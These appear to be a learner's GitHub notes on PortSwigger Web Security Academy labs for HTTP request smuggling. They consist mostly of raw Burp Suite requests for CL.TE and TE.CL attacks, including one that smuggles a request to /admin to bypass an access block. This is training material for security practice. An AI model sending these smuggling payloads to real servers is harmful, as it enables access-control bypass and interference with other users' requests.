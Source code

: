 
Burpesuite request
Will respond with a 404 if successful 
```
POST / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 35
Transfer-Encoding: chunked
0
GET /404 HTTP/1.1
X-Ignore: X
```


**HTTP request smuggling, confirming a TE.CL vulnerability via differential responses**


Burp Request
```
POST / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-length: 4
Transfer-Encoding: chunked
5e
POST /404 HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15
x=1
0
```

**HTTP request smuggling, confirming a TE.CL vulnerability via differential responses**


Admin panel block
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/a6a57ba3-6804-466c-ae3d-20156a906f01)




Trying CLTE to acccess blocked 
 
```
POST / HTTP/1.1
Host: 0a10003704e0e26d81f194ed005100f1.web-security-academy.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/114.0Cookie: session=I2LwNjHcj1sab81ZQKf7AhSpxWRBS0ya
Content-Type: application/x-www-form-urlencoded
Content-Length: 40
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
X-Ignore: X
```
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/03085687-89d5-467f-9e03-36dff9b1f6e5)
